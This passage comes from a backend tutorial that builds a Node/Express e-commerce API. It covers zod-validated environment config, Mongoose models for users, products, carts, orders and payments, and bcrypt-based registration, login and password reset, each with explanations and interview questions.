**4. Is CORS a security feature for my API?**
No. It protects users' browsers from cross-origin reads. Attackers use curl. You still need authN/authZ. CORS does *not* stop CSRF either, because the request is still sent. Only the response read is blocked.

**5. Difference between "origin" and "site"?**
Origin = scheme + host + port. Site = scheme + registrable domain. SameSite cookies use *site*; CORS uses *origin*.

---

# Chapter 3: Config with .env and zod

## Why this exists

Secrets (DB passwords, JWT keys) and per-environment settings (ports, URLs) must **not** live in code. They go in environment variables. Two classic failures:

1. Server starts with `JWT_SECRET` undefined. `jwt.sign` then either throws at the *first login* (3 a.m., prod) or silently signs with `"undefined"`.
2. A typo (`MONGO_RUI`) gives a confusing error far from the cause.

The fix is to **fail fast**: validate *all* env vars once, at startup, and refuse to boot if anything is wrong.

## Mental model

Think of `env.js` as the **airport customs desk** for configuration. Raw strings from the outside world come in; only validated, typed, converted values get through. The rest of the app imports `config` and *never touches `process.env`*.

## Code

### `.env.example` (committed; documents every variable)

```bash
NODE_ENV=development
PORT=5000
# Number of proxy hops in front of the app (0 locally, 1 behind nginx/Render/Heroku)
TRUST_PROXY=0

# Where THIS server is reachable (used to build OAuth callback URLs)
SERVER_URL=http://localhost:5000
# Where the frontend lives (OAuth redirects back here)
CLIENT_URL=http://localhost:3000
# Comma-separated CORS allowlist (exact origins)
CLIENT_ORIGINS=http://localhost:3000,http://localhost:5173

MONGO_URI=mongodb://localhost:27017/ecommerce
REDIS_URL=redis://localhost:6379

# Generate: node -e "console.log(require('crypto').randomBytes(48).toString('hex'))"
JWT_ACCESS_SECRET=replace-me-with-at-least-32-random-chars-aaaaaaaa
JWT_REFRESH_SECRET=replace-me-with-a-DIFFERENT-32-char-secret-bbbbbbbb
ACCESS_TOKEN_TTL_MIN=15
REFRESH_TOKEN_TTL_DAYS=7

# lax | strict | none  (none requires HTTPS)
COOKIE_SAMESITE=lax

# OAuth (optional; a provider is enabled only if both values are set)
GOOGLE_CLIENT_ID=
GOOGLE_CLIENT_SECRET=
GITHUB_CLIENT_ID=
GITHUB_CLIENT_SECRET=
DISCORD_CLIENT_ID=
DISCORD_CLIENT_SECRET=

# Razorpay TEST mode keys (dashboard -> Settings -> API Keys)
RAZORPAY_KEY_ID=rzp_test_xxxxxxxxxxxx
RAZORPAY_KEY_SECRET=xxxxxxxxxxxxxxxxxxxxxxxx
RAZORPAY_WEBHOOK_SECRET=choose-a-webhook-secret
```

```bash
cp .env.example .env
```

Generate two real secrets and paste them into `.env`:

```bash
node -e "console.log(require('crypto').randomBytes(48).toString('hex'))"
```

### `src/config/env.js`

```js
import 'dotenv/config';
import { z } from 'zod';

const schema = z.object({
  NODE_ENV: z.enum(['development', 'test', 'production']).default('development'),
  PORT: z.coerce.number().int().positive().default(5000),
  TRUST_PROXY: z.coerce.number().int().min(0).default(0),

  SERVER_URL: z.string().url(),
  CLIENT_URL: z.string().url(),
  // "a,b,c" -> ['a','b','c']
  CLIENT_ORIGINS: z
    .string()
    .min(1)
    .transform((s) => s.split(',').map((o) => o.trim()).filter(Boolean)),

  MONGO_URI: z.string().min(1),
  REDIS_URL: z.string().min(1),

  // Min length 32: short secrets can be brute-forced offline from a single leaked JWT.
  JWT_ACCESS_SECRET: z.string().min(32),
  JWT_REFRESH_SECRET: z.string().min(32),
  ACCESS_TOKEN_TTL_MIN: z.coerce.number().int().positive().default(15),
  REFRESH_TOKEN_TTL_DAYS: z.coerce.number().int().positive().default(7),

  COOKIE_SAMESITE: z.enum(['lax', 'strict', 'none']).default('lax'),

  GOOGLE_CLIENT_ID: z.string().optional(),
  GOOGLE_CLIENT_SECRET: z.string().optional(),
  GITHUB_CLIENT_ID: z.string().optional(),
  GITHUB_CLIENT_SECRET: z.string().optional(),
  DISCORD_CLIENT_ID: z.string().optional(),
  DISCORD_CLIENT_SECRET: z.string().optional(),

  RAZORPAY_KEY_ID: z.string().min(1),
  RAZORPAY_KEY_SECRET: z.string().min(1),
  RAZORPAY_WEBHOOK_SECRET: z.string().min(1),
});

const parsed = schema.safeParse(process.env);

if (!parsed.success) {
  // Print WHICH variables are wrong, but never print their VALUES (they're secrets).
  const problems = parsed.error.issues.map((i) => `  - ${i.path.join('.')}: ${i.message}`).join('\n');
  console.error(`\nInvalid environment configuration:\n${problems}\n`);
  process.exit(1); // fail fast, don't limp along
}

const env = parsed.data;

if (env.JWT_ACCESS_SECRET === env.JWT_REFRESH_SECRET) {
  console.error('JWT_ACCESS_SECRET and JWT_REFRESH_SECRET must differ');
  process.exit(1);
}

const isProd = env.NODE_ENV === 'production';

// The one object the rest of the app imports.
export const config = Object.freeze({
  env: env.NODE_ENV,
  isProd,
  isTest: env.NODE_ENV === 'test',
  port: env.PORT,
  trustProxy: env.TRUST_PROXY,
  serverUrl: env.SERVER_URL,
  clientUrl: env.CLIENT_URL,
  clientOrigins: env.CLIENT_ORIGINS,
  mongoUri: env.MONGO_URI,
  redisUrl: env.REDIS_URL,
  jwt: {
    accessSecret: env.JWT_ACCESS_SECRET,
    refreshSecret: env.JWT_REFRESH_SECRET,
    accessTtlMin: env.ACCESS_TOKEN_TTL_MIN,
    refreshTtlDays: env.REFRESH_TOKEN_TTL_DAYS,
  },
  cookie: {
    sameSite: env.COOKIE_SAMESITE,
    // Browsers REQUIRE Secure when SameSite=None. In prod we always want Secure.
    secure: isProd || env.COOKIE_SAMESITE === 'none',
  },
  oauth: {
    google: { clientID: env.GOOGLE_CLIENT_ID, clientSecret: env.GOOGLE_CLIENT_SECRET },
    github: { clientID: env.GITHUB_CLIENT_ID, clientSecret: env.GITHUB_CLIENT_SECRET },
    discord: { clientID: env.DISCORD_CLIENT_ID, clientSecret: env.DISCORD_CLIENT_SECRET },
  },
  razorpay: {
    keyId: env.RAZORPAY_KEY_ID,
    keySecret: env.RAZORPAY_KEY_SECRET,
    webhookSecret: env.RAZORPAY_WEBHOOK_SECRET,
  },
});
```

### Refactor the earlier files

**`src/config/cors.js`**: replace the allowlist helper:

```js
import { config } from './env.js';

export const corsOptions = {
  origin(origin, callback) {
    if (!origin) return callback(null, true);
    if (config.clientOrigins.includes(origin)) return callback(null, true);
    return callback(null, false);
  },
  credentials: true,
  methods: ['GET', 'POST', 'PUT', 'PATCH', 'DELETE', 'OPTIONS'],
  allowedHeaders: ['Content-Type', 'Authorization'],
  maxAge: 600,
};
```

**`src/app.js`**: add `import { config } from './config/env.js';` and change two lines:

```js
app.set('trust proxy', config.trustProxy);
// ...
app.use(morgan(config.isProd ? 'combined' : 'dev'));
```

**`src/server.js`**: replace the top and the port:

```js
import http from 'node:http';
import { config } from './config/env.js'; // validates env, exits if invalid
import { createApp } from './app.js';

const app = createApp();
const server = http.createServer(app);
server.listen(config.port, () => console.log(`API listening on :${config.port}`));
// ... shutdown code unchanged
```

(We removed `import 'dotenv/config'` here because `env.js` does it.)

## Pro tip / War story

> We once deployed with `JWT_SECRET` set in staging but forgotten in prod. The app booted fine. Because the old code did `process.env.JWT_SECRET || 'secret'`, **prod signed tokens with the string "secret"** for two days until a pentester forged an admin token. Never provide fallback secrets. Crash instead. A crashed deploy is a 5-minute fix; a forged admin token is an incident report.
>
> Also: `process.env.X` is always a **string**. `process.env.DEBUG = "false"` is truthy. That's why we use `z.coerce`.

## Common mistakes

- Committing `.env`. Commit `.env.example`, never the real file.
- `|| 'default-secret'` fallbacks.
- Logging the whole config (`console.log(config)`) at startup, which puts secrets in log aggregators.
- Sprinkling `process.env` all over the code, so you can't see the full config surface.

## Test it

```bash
# Break it on purpose:
JWT_ACCESS_SECRET=short npm run dev
```

Expected:

```
Invalid environment configuration:
  - JWT_ACCESS_SECRET: String must contain at least 32 character(s)
```

The process exits with code 1. Restore it and the server boots again.

## Interview corner

**1. Why validate env at startup?**
Fail fast. A missing or malformed variable should stop the deploy, not surface hours later on the first request that needs it.

**2. Where do secrets belong in production?**
In the platform's secret manager or environment (AWS Secrets Manager, Doppler, Render env vars, Kubernetes Secrets), not in the repo or the image. `.env` files are a dev convenience.

**3. Why `.env.example`?**
It documents required configuration and onboards new devs without exposing secrets.

**4. Why use separate access and refresh secrets?**
So leaking or brute-forcing one doesn't compromise the other, and so an access token can't be presented as a refresh token. We also use distinct payloads.

**5. How do you rotate a leaked JWT secret?**
Deploy a new secret (all existing tokens become invalid, so users re-login). For zero-downtime rotation, support two secrets by using `kid` in the JWT header, verifying with the old key until it expires.


---

# Chapter 4: MongoDB connection and schemas

## Why this exists

An API without a database forgets everything on restart. MongoDB stores documents (JSON-like objects); **Mongoose** adds schemas (shape and validation), hooks, and helper methods on top.

Two big ideas in this chapter:

1. **Connect before you listen.** If the server accepts requests before the DB is connected, the first users get errors (or requests hang for 10 seconds while Mongoose buffers commands). So: connect → *then* `listen()`.
2. **Schemas are your last line of defense.** Validation in zod protects the API edge, but the schema, with its required fields, enums and **unique indexes**, protects the data from *every* code path (scripts, workers, future you).

## Mental model

A schema is a **form template** at a government office. The clerk (Mongoose) rejects forms with missing fields. A **unique index** is the office's rule book saying "no two people can have the same ID number". The rule is enforced by the database itself, so even two clerks working at the same instant can't both approve the same one.

## Money rule

> **Store money as integers in the smallest unit (paise).** ₹499.50 → `49950`. Floats do `0.1 + 0.2 = 0.30000000000000004` and you will eventually charge someone ₹0.01 too much. Razorpay also wants paise.

## Code

### `src/utils/logger.js`

```js
// Tiny logger. In a real system swap for pino; the call sites stay identical.
// Rule: NEVER log passwords, tokens, cookies, or full request bodies.
const log = (level, args) => console[level](`[${new Date().toISOString()}]`, level.toUpperCase(), ...args);

export const logger = {
  info: (...a) => log('log', a),
  warn: (...a) => log('warn', a),
  error: (...a) => log('error', a),
};
```

### `src/models/User.js`

```js
import mongoose from 'mongoose';

const { Schema } = mongoose;

const userSchema = new Schema(
  {
    name: { type: String, required: true, trim: true, minlength: 2, maxlength: 80 },

    email: {
      type: String,
      required: true,
      unique: true, // builds a UNIQUE INDEX, the real duplicate protection
      lowercase: true, // 'Bob@X.com' and 'bob@x.com' must be the same account
      trim: true,
      maxlength: 254,
    },

    // select:false = this field is NOT returned by queries unless you explicitly
    // ask: User.findOne().select('+password'). A forgotten .select() leaks nothing.
    // Not "required": OAuth-only users have no password.
    password: { type: String, select: false },

    role: { type: String, enum: ['user', 'admin'], default: 'user' },
    isEmailVerified: { type: Boolean, default: false },
    avatar: String,

    // Linked OAuth identities (Chapter 12).
    providers: [
      {
        _id: false,
        provider: { type: String, enum: ['google', 'github', 'discord'], required: true },
        providerId: { type: String, required: true },
      },
    ],

    // Bump this number to instantly invalidate ALL existing access tokens (Chapter 10).
    tokenVersion: { type: Number, default: 0 },

    passwordChangedAt: Date,

    // Password reset: we store only a HASH of the token (Chapter 5).
    passwordResetToken: { type: String, select: false },
    passwordResetExpires: { type: Date, select: false },
  },
  {
    timestamps: true, // createdAt / updatedAt for free
    toJSON: {
      // Whatever happens, these never leave the server, even if someone does res.json(user).
      transform(doc, ret) {
        ret.id = ret._id;
        delete ret._id;
        delete ret.__v;
        delete ret.password;
        delete ret.tokenVersion;
        delete ret.passwordResetToken;
        delete ret.passwordResetExpires;
        return ret;
      },
    },
  }
);

// One OAuth identity can belong to only ONE user. The partial filter is needed because
// users with an empty providers array would otherwise all collide on the same "undefined" key.
userSchema.index(
  { 'providers.provider': 1, 'providers.providerId': 1 },
  { unique: true, partialFilterExpression: { 'providers.provider': { $exists: true } } }
);

export const User = mongoose.model('User', userSchema);
```

### `src/models/RefreshToken.js`

```js
import mongoose from 'mongoose';

const { Schema } = mongoose;

// One document per issued refresh token. We store a HASH, never the token itself,
// so a DB leak doesn't hand attackers working sessions (Chapter 7).
const refreshTokenSchema = new Schema({
  user: { type: Schema.Types.ObjectId, ref: 'User', required: true, index: true },
  family: { type: String, required: true, index: true }, // all rotations of one login share a family
  jti: { type: String, required: true },
  tokenHash: { type: String, required: true, unique: true },
  usedAt: { type: Date, default: null }, // set when rotated; a second use = theft signal
  userAgent: String,
  ip: String,
  createdAt: { type: Date, default: Date.now },
  // TTL index: MongoDB deletes the document automatically at expiresAt. No cron needed.
  expiresAt: { type: Date, required: true, index: { expireAfterSeconds: 0 } },
});

export const RefreshToken = mongoose.model('RefreshToken', refreshTokenSchema);
```

### `src/models/Product.js`

```js
import mongoose from 'mongoose';

const { Schema } = mongoose;

const productSchema = new Schema(
  {
    name: { type: String, required: true, trim: true, minlength: 2, maxlength: 120 },
    description: { type: String, trim: true, maxlength: 2000, default: '' },
    price: {
      type: Number,
      required: true,
      min: 1,
      validate: { validator: Number.isInteger, message: 'price must be an integer (paise)' },
    },
    stock: {
      type: Number,
      required: true,
      min: 0,
      validate: { validator: Number.isInteger, message: 'stock must be an integer' },
    },
    category: { type: String, required: true, trim: true, lowercase: true },
    images: { type: [String], default: [] },
    isActive: { type: Boolean, default: true }, // soft delete: old orders still reference the product
  },
  { timestamps: true }
);

// INDEXES: the difference between 2ms and 2s once you have 100k products.
productSchema.index({ name: 'text', description: 'text' }); // powers ?q= search
productSchema.index({ category: 1, price: 1 }); // powers category + price filtering

// Instance method: logic that belongs to ONE document.
productSchema.methods.hasStock = function (quantity) {
  return this.isActive && this.stock >= quantity;
};

export const Product = mongoose.model('Product', productSchema);
```

### `src/models/Cart.js`

```js
import mongoose from 'mongoose';

const { Schema } = mongoose;

const cartSchema = new Schema(
  {
    // unique: one cart per user, enforced by the DB.
    user: { type: Schema.Types.ObjectId, ref: 'User', required: true, unique: true },
    items: [
      {
        _id: false,
        product: { type: Schema.Types.ObjectId, ref: 'Product', required: true },
        quantity: { type: Number, required: true, min: 1, max: 20 },
      },
    ],
  },
  { timestamps: true }
);

export const Cart = mongoose.model('Cart', cartSchema);
```

### `src/models/Order.js`

```js
import mongoose from 'mongoose';

const { Schema } = mongoose;

export const ORDER_STATUS = Object.freeze({
  PENDING_PAYMENT: 'pending_payment',
  PAID: 'paid',
  PROCESSING: 'processing',
  SHIPPED: 'shipped',
  DELIVERED: 'delivered',
  CANCELLED: 'cancelled',
  REFUNDED: 'refunded',
});

// Which admin-driven status changes are legal. 'paid' is only reachable via payment,
// 'refunded' only via refund; the admin endpoint can't jump there.
export const ADMIN_TRANSITIONS = Object.freeze({
  paid: ['processing', 'cancelled'],
  processing: ['shipped', 'cancelled'],
  shipped: ['delivered'],
});

const orderSchema = new Schema(
  {
    user: { type: Schema.Types.ObjectId, ref: 'User', required: true },
    // SNAPSHOT of name and price at purchase time. If the product price changes next week,
    // this order's history must not change.
    items: [
      {
        _id: false,
        product: { type: Schema.Types.ObjectId, ref: 'Product', required: true },
        name: { type: String, required: true },
        price: { type: Number, required: true }, // paise, per unit
        quantity: { type: Number, required: true, min: 1 },
      },
    ],
    amount: { type: Number, required: true, min: 1 }, // paise, computed SERVER-side
    currency: { type: String, default: 'INR' },
    status: {
      type: String,
      enum: Object.values(ORDER_STATUS),
      default: ORDER_STATUS.PENDING_PAYMENT,
    },
    razorpayOrderId: { type: String, index: true, sparse: true },
    paidAt: Date,
  },
  { timestamps: true }
);

// Compound index: "my orders, newest first" is the hottest query on this collection.
orderSchema.index({ user: 1, createdAt: -1 });

// HOOK: a safety net. Whatever code path creates an Order, the total must match the items.
orderSchema.pre('validate', function () {
  const sum = this.items.reduce((acc, i) => acc + i.price * i.quantity, 0);
  if (sum !== this.amount) {
    this.invalidate('amount', 'amount does not match sum of items');
  }
});

export const Order = mongoose.model('Order', orderSchema);
```

### `src/models/Payment.js`

```js
import mongoose from 'mongoose';

const { Schema } = mongoose;

// created -> verified -> captured -> refunded
//    \-> failed (can still be retried and become captured)
export const PAYMENT_STATUS = Object.freeze({
  CREATED: 'created', // we created the Razorpay order, user hasn't paid yet
  VERIFIED: 'verified', // browser handed us a valid signature (NOT proof of money yet)
  CAPTURED: 'captured', // webhook confirmed: money is ours
  FAILED: 'failed',
  REFUNDED: 'refunded',
});

const paymentSchema = new Schema(
  {
    order: { type: Schema.Types.ObjectId, ref: 'Order', required: true, index: true },
    user: { type: Schema.Types.ObjectId, ref: 'User', required: true },
    razorpayOrderId: { type: String, required: true, unique: true },
    razorpayPaymentId: String,
    amount: { type: Number, required: true }, // paise
    currency: { type: String, default: 'INR' },
    status: { type: String, enum: Object.values(PAYMENT_STATUS), default: PAYMENT_STATUS.CREATED },
    signatureVerified: { type: Boolean, default: false },
    capturedAt: Date,
    refundId: String,
    failureReason: String,
  },
  { timestamps: true }
);

// A Razorpay payment id may only ever be attached to ONE payment record.
// Partial index because most docs don't have it yet.
paymentSchema.index(
  { razorpayPaymentId: 1 },
  { unique: true, partialFilterExpression: { razorpayPaymentId: { $type: 'string' } } }
);

export const Payment = mongoose.model('Payment', paymentSchema);
```

### `src/config/db.js`

```js
import mongoose from 'mongoose';
import { config } from './env.js';
import { logger } from '../utils/logger.js';

// Importing the models here registers them, so init() below builds their indexes.
import '../models/User.js';
import '../models/RefreshToken.js';
import '../models/Product.js';
import '../models/Cart.js';
import '../models/Order.js';
import '../models/Payment.js';

mongoose.set('strictQuery', true); // ignore unknown fields in filters instead of silently matching nothing

// Connection events: these fire for the whole life of the process, not just startup.
mongoose.connection.on('connected', () => logger.info('MongoDB connected'));
mongoose.connection.on('disconnected', () => logger.warn('MongoDB disconnected'));
mongoose.connection.on('error', (err) => logger.error('MongoDB error:', err.message));

export async function connectDB() {
  await mongoose.connect(config.mongoUri, {
    // Without this, a dead DB makes calls hang ~30s. 5s = fail fast and visibly.
    serverSelectionTimeoutMS: 5000,
  });
  // Make sure unique indexes exist BEFORE we serve traffic. Otherwise two simultaneous
  // sign-ups at boot could both succeed.
  await Promise.all(Object.values(mongoose.models).map((m) => m.init()));
}

export async function disconnectDB() {
  await mongoose.connection.close();
}
```

### Replace `src/server.js`

```js
import http from 'node:http';
import { config } from './config/env.js';
import { connectDB, disconnectDB } from './config/db.js';
import { createApp } from './app.js';
import { logger } from './utils/logger.js';

const app = createApp();
const server = http.createServer(app);

async function start() {
  await connectDB(); // 1. DB first...
  server.listen(config.port, () => logger.info(`API listening on :${config.port}`)); // 2. ...then traffic
}

start().catch((err) => {
  logger.error('Failed to start:', err.message);
  process.exit(1);
});

let shuttingDown = false;
async function shutdown(signal) {
  if (shuttingDown) return;
  shuttingDown = true;
  logger.info(`${signal} received, shutting down...`);
  setTimeout(() => process.exit(1), 10_000).unref();
  // Order matters: stop taking requests, let them finish, THEN close the DB they use.
  server.close(async () => {
    await disconnectDB();
    process.exit(0);
  });
}
process.on('SIGTERM', () => shutdown('SIGTERM'));
process.on('SIGINT', () => shutdown('SIGINT'));
```

## Pro tip / War story

> **The duplicate-user bug.** Original sign-up code: `if (await User.findOne({email})) throw ...; await User.create(...)`. Looks right. In production, a user double-clicked "Sign up". Two requests ran the `findOne` at the same millisecond, both saw nothing, both inserted. Two accounts, one email, and a login that randomly picked one. The fix is not more `if`s. It's the **unique index** and handling error code `11000`. Check-then-insert is a race; the database is the only referee.
>
> Second story: a search page took 40 seconds in prod after the table grew past 500k rows. No index on `category`. `explain()` showed `COLLSCAN`. Always check `explain('executionStats')` for your hot queries.

## Common mistakes

- Starting `listen()` before the DB is connected.
- Storing prices as floats.
- Relying on app-level uniqueness checks instead of unique indexes.
- Forgetting `select: false` on secrets (then `res.json(user)` leaks hashes).
- Over-indexing. Every index slows writes and eats RAM. Index what you query.
- Embedding giant arrays in one document (16 MB document cap).

## Test it

```bash
npm run dev
```

Expected log: `MongoDB connected` then `API listening on :5000`.

Fail-fast check:

```bash
docker compose stop mongo
npm run dev     # -> "Failed to start: Server selection timed out after 5000 ms", exit code 1
docker compose start mongo
```

Check indexes were built:

```bash
docker compose exec mongo mongosh ecommerce --quiet --eval 'db.users.getIndexes().map(i => i.name)'
# [ '_id_', 'email_1', 'providers.provider_1_providers.providerId_1' ]
```

## Interview corner

**1. Why connect to the DB before `listen()`?**
So we never accept traffic we can't serve. With Mongoose's command buffering, early requests hang then fail. Also, a failed connection should crash the boot so the orchestrator restarts or alerts.

**2. What does `select: false` do?**
Excludes the field from query results by default. You must opt in with `.select('+field')`. It's defense in depth against accidentally returning password hashes.

**3. How do you guarantee unique emails?**
A unique index plus handling the duplicate-key error (11000). App-level `findOne` checks are racy.

**4. Why store money as integers?**
Binary floating point can't represent most decimals exactly. Integers in the smallest unit avoid rounding errors, and payment gateways expect them.

**5. Embedding vs referencing?**
Embed when data is read together and bounded (cart items). Reference when it's shared or unbounded (orders → users). We also *snapshot* product name and price into orders on purpose, because history shouldn't change when the catalogue does.

---

# Chapter 5: Password hashing, register, login, reset

## Why this exists

If your DB leaks and passwords are plaintext, every user's account is gone, and because people reuse passwords, so are their other accounts. So we never store passwords; we store a **hash**.

A **hash** is a one-way scrambler: easy to compute, practically impossible to reverse. At login we hash what the user typed and compare it to the stored hash.

But plain SHA-256 isn't enough: it's *fast*, so attackers try billions of guesses per second. We need a **deliberately slow** algorithm: **bcrypt**. It also builds in a **salt**, a random value mixed in per password. Two users with the same password get different hashes, which defeats precomputed "rainbow tables".

## Mental model

bcrypt = a **blender with a timer**. Same fruit goes in, you get smoothie out, no un-blending. The salt is a random pinch of spice added per user. The **cost factor** (12) is the blending time; each +1 doubles it. You want ~250ms: invisible to a user, brutal for an attacker with billions of guesses.

The stored string looks like `$2b$12$<22-char salt><31-char hash>`. The cost and salt are *inside* it, which is why `bcrypt.compare` needs only the hash.

## Code

### `src/utils/AppError.js`

```js
// Errors we THROW ON PURPOSE (wrong password, not found, forbidden) are "operational".
// Everything else (a TypeError from a bug) is a programmer error and must not leak details.
export class AppError extends Error {
  constructor(message, statusCode = 500, code = 'INTERNAL_ERROR', details = undefined) {
    super(message);
    this.name = 'AppError';
    this.statusCode = statusCode;
    this.code = code; // machine-readable: the frontend switches on this, not on message text
    this.details = details;
    this.isOperational = true;
    Error.captureStackTrace(this, this.constructor);
  }
}
```

### `src/utils/asyncHandler.js`

```js
// Express 4 does NOT catch rejected promises from async handlers. An unhandled
// rejection would hang the request (and in Node 15+ can crash the process).
// This wrapper forwards any rejection to next(err), so the error handler sees it.
// (Express 5 does this natively, so you can delete this file there.)
export const asyncHandler = (fn) => (req, res, next) => Promise.resolve(fn(req, res, next)).catch(next);
```

### Modify `src/app.js` (interim error handler)

Chapter 11 builds the real one. For now, make the inline handler honor `AppError` so you can see proper status codes:

```js
  app.use((err, req, res, next) => {
    const status = err.statusCode ?? 500;
    if (status === 500) console.error(err);
    res.status(status).json({
      status: status < 500 ? 'fail' : 'error',
      code: err.code,
      message: status < 500 ? err.message : 'Something went wrong',
      details: err.details,
    });
  });
```

### `src/validators/common.js`

```js
import { z } from 'zod';

// Mongo ObjectIds are 24 hex chars. Validating here means a garbage id returns a clean 400
// instead of a CastError deep inside Mongoose.
export const objectId = z.string().regex(/^[0-9a-fA-F]{24}$/, 'Invalid id');

export const email = z.string().trim().toLowerCase().email().max(254);

// bcrypt only uses the first 72 BYTES of the input; anything longer is silently ignored.
// So we cap at 72. Complexity rules are a tradeoff, so we require the basics + a length floor.
export const password = z
  .string()
  .min(8, 'Password must be at least 8 characters')
  .max(72, 'Password must be at most 72 characters')
  .regex(/[a-z]/, 'Password needs a lowercase letter')
  .regex(/[A-Z]/, 'Password needs an uppercase letter')
  .regex(/\d/, 'Password needs a number');
```

### `src/validators/auth.validators.js`

```js
import { z } from 'zod';
import { email, password } from './common.js';

// .strict() REJECTS unknown keys. So {"name":"x","role":"admin"} fails with 400
// instead of silently being accepted. This is how you stop mass-assignment attacks.
export const registerSchema = {
  body: z
    .object({
      name: z.string().trim().min(2).max(80),
      email,
      password,
    })
    .strict(),
};

export const loginSchema = {
  body: z.object({ email, password: z.string().min(1).max(200) }).strict(),
};

export const forgotPasswordSchema = { body: z.object({ email }).strict() };

export const resetPasswordSchema = {
  body: z
    .object({
      token: z.string().regex(/^[a-f0-9]{64}$/, 'Invalid token'),
      password,
    })
    .strict(),
};
```

### `src/middleware/validate.js`

```js
import { AppError } from '../utils/AppError.js';

// validate({ body, query, params }) -> middleware.
// Parsed + sanitized data goes to req.valid.*  (we don't overwrite req.query because
// in Express 5 it's a read-only getter). Controllers use ONLY req.valid, never the raw input.
export const validate = (schemas) => (req, res, next) => {
  req.valid = {};
  for (const key of ['body', 'query', 'params']) {
    if (!schemas[key]) continue;
    const result = schemas[key].safeParse(req[key]);
    if (!result.success) {
      const details = result.error.issues.map((i) => ({ path: i.path.join('.'), message: i.message }));
      return next(new AppError('Validation failed', 400, 'VALIDATION_ERROR', details));
    }
    req.valid[key] = result.data;
  }
  next();
};
```

### Modify `src/models/User.js`: add hook and methods

Add at the top: `import bcrypt from 'bcrypt'; import crypto from 'node:crypto';`. Then **before** `export const User = ...` add:

```js
const BCRYPT_COST = 12;

// PRE-SAVE HOOK: runs before every save(). Hashing lives in the MODEL so no code path
// (controller, script, OAuth, seed file) can ever store a plaintext password.
userSchema.pre('save', async function () {
  // isModified: don't re-hash an already-hashed password when only the name changed!
  // (!this.password: OAuth users have none, and 'undefined' must not reach bcrypt.)
  if (!this.isModified('password') || !this.password) return;
  this.password = await bcrypt.hash(this.password, BCRYPT_COST);
  this.passwordChangedAt = new Date();
});
// NOTE: User.updateOne / findByIdAndUpdate SKIP save hooks. Always use doc.save() to change passwords.

// INSTANCE METHOD: candidate vs stored hash. bcrypt.compare is constant-time-ish and handles the salt.
userSchema.methods.comparePassword = function (candidate) {
  return bcrypt.compare(candidate, this.password);
};

// Reset token: random, expiring, stored HASHED. Returns the RAW token (emailed once, never stored).
userSchema.methods.createPasswordResetToken = function () {
  const raw = crypto.randomBytes(32).toString('hex'); // 256 bits of randomness, unguessable
  this.passwordResetToken = crypto.createHash('sha256').update(raw).digest('hex');
  this.passwordResetExpires = new Date(Date.now() + 15 * 60 * 1000); // 15 minutes
  return raw;
};
```

Why SHA-256 (fast) for the reset token but bcrypt (slow) for passwords? Passwords are *low-entropy* (humans pick `Summer2024!`), so slowness defends them. Reset tokens are *256 random bits*; nobody can brute-force them, so a fast hash is fine and lets us look the token up by hash in the DB.

### `src/services/auth.service.js`

```js
import bcrypt from 'bcrypt';
import crypto from 'node:crypto';
import { User } from '../models/User.js';
import { AppError } from '../utils/AppError.js';
import { config } from '../config/env.js';
import { logger } from '../utils/logger.js';

// A real hash of a throwaway password. If the email doesn't exist we STILL run a bcrypt
// compare against this, so "no such user" takes as long as "wrong password". Without it,
// response timing reveals which emails are registered.
const DUMMY_HASH = bcrypt.hashSync('not-a-real-password', 12);

const sha256 = (v) => crypto.createHash('sha256').update(v).digest('hex');

export async function register({ name, email, password }) {
  try {
    // Role is NOT accepted from input; the schema default ('user') applies. Admins are made by hand.
    return await User.create({ name, email, password });
  } catch (err) {
    // Let the unique index be the referee (see Chapter 4 war story).
    if (err.code === 11000) throw new AppError('Email already registered', 409, 'EMAIL_TAKEN');
    throw err;
  }
}

export async function login({ email, password }) {
  const user = await User.findOne({ email }).select('+password');

  // Compare ALWAYS runs, and the error is ALWAYS identical, whatever went wrong.
  const hash = user?.password ?? DUMMY_HASH;
  const ok = await bcrypt.compare(password, hash);

  if (!user || !user.password || !ok) {
    // Generic on purpose: "Email not found" vs "Wrong password" tells attackers which emails exist.
    throw new AppError('Invalid email or password', 401, 'INVALID_CREDENTIALS');
  }
  return user;
}

export async function forgotPassword(email) {
  const user = await User.findOne({ email });
  if (user) {
    const rawToken = user.createPasswordResetToken();
    // validateBeforeSave:false, because we're not touching other fields, and we don't want
    // an old record failing validation to block a reset.
    await user.save({ validateBeforeSave: false });

    const link = `${config.clientUrl}/reset-password?token=${rawToken}`;
    // Real life: enqueue an email job here. The link is a SECRET, so it's only logged in dev.
    if (!config.isProd) logger.info(`[DEV ONLY] password reset link for ${email}: ${link}`);
  }
  // The controller returns the SAME response whether or not the user exists.
}

export async function resetPassword({ token, password }) {
  // ATOMIC claim: find a matching, unexpired token AND remove it in one DB operation.
  // Two simultaneous requests with the same token: only one gets a document back => single-use.
  const user = await User.findOneAndUpdate(
    { passwordResetToken: sha256(token), passwordResetExpires: { $gt: new Date() } },
    { $unset: { passwordResetToken: 1, passwordResetExpires: 1 } }
  );
  if (!user) throw new AppError('Invalid or expired reset token', 400, 'INVALID_RESET_TOKEN');

  user.password = password; // pre-save hook hashes it
  user.tokenVersion += 1; // kills every existing access token (see Chapter 10)
  await user.save();
  return user;
}
```

In Chapter 7 we'll also revoke all refresh tokens on reset. A password reset that leaves old sessions alive defeats its purpose.

### `src/controllers/auth.controller.js`

```js
import { asyncHandler } from '../utils/asyncHandler.js';
import * as authService from '../services/auth.service.js';

// Controllers: read input -> call ONE service -> shape the response. Nothing else.
export const register = asyncHandler(async (req, res) => {
  const user = await authService.register(req.valid.body);
  res.status(201).json({ status: 'success', data: { user } });
});

export const login = asyncHandler(async (req, res) => {
  const user = await authService.login(req.valid.body);
  res.json({ status: 'success', data: { user } });
});

export const forgotPassword = asyncHandler(async (req, res) => {
  await authService.forgotPassword(req.valid.body.email);
  res.json({ status: 'success', message: 'If that email exists, a reset link has been sent' });
});

export const resetPassword = asyncHandler(async (req, res) => {
  await authService.resetPassword(req.valid.body);
  res.json({ status: 'success', message: 'Password updated. Please log in again.' });
});
```

### `src/routes/auth.routes.js`

```js
import { Router } from 'express';
import { validate } from '../middleware/validate.js';
import { authLimiter } from '../middleware/rateLimit.js';
import * as ctrl from '../controllers/auth.controller.js';
import {
  registerSchema,
  loginSchema,
  forgotPasswordSchema,
  resetPasswordSchema,
} from '../validators/auth.validators.js';

const router = Router();

// authLimiter: 10 attempts / 15 min per IP on anything credential-related.
router.post('/register', authLimiter, validate(registerSchema), ctrl.register);
router.post('/login', authLimiter, validate(loginSchema), ctrl.login);
router.post('/forgot-password', authLimiter, validate(forgotPasswordSchema), ctrl.forgotPassword);
router.post('/reset-password', authLimiter, validate(resetPasswordSchema), ctrl.resetPassword);

export default router;
```

### Modify `src/routes/index.js`

```js
